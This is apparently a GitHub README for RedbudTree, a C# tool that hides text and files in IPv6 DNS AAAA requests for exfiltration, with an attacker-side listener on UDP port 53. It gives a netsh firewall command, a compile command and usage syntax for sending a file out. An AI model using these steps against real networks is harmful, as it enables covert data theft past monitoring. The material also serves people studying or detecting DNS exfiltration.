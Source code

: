 # RedbudTree
![](https://github.com/DamonMohammadbagher/RedbudTree/blob/master/Pic.jpg)
DNS IPv6 Request Listener (UDP Port 53) for Detecting Exfiltration DATA via IPv6 DNS AAAA Record Requests.

i will Publish article for this tool soon.

step 1:         
/// for using "Listening Mode" UDP Port 53 should be opened before using this tool.         
/// windows command for opening UDP port 53 is :  
/// netsh advfirewall firewall add rule name="UDP 53" dir=in action=allow protocol=UDP localport=53

Note: step "1" is for attacker side

step 2:         
/// Compiling C# Code.         
/// windows command for this is :  
/// csc.exe /out:RedbudTree.exe  RedbudTree.cs 


step 3:         
/// RedbudTree.exe Help         
/// windows command for this is :  

/// Syntax 1: Creating Exfiltration DATA via IPv6 Address and Nslookup.         
/// Syntax 1: RedbudTree.exe "AAAA" "Text"  
/// Example1: RedbudTree.exe AAAA "this is my test" 

/// Syntax 2: Creating Exfiltration DATA via IPv6 Address and Nslookup by Text Files.  (redbudtree_2.png)        
/// Syntax 2: RedbudTree.exe "AAAA" "FILE" "TextFile.txt"  
/// Example2: RedbudTree.exe AAAA FILE "TextFile.txt" 

/// Syntax 3: RedbudTree with Listening Mode          
/// Syntax 3: RedbudTree.exe  
Note: syntax 3 is ((Dumping DATA via IPv6 Requests , attacker side)) (redbudtree_3.png)


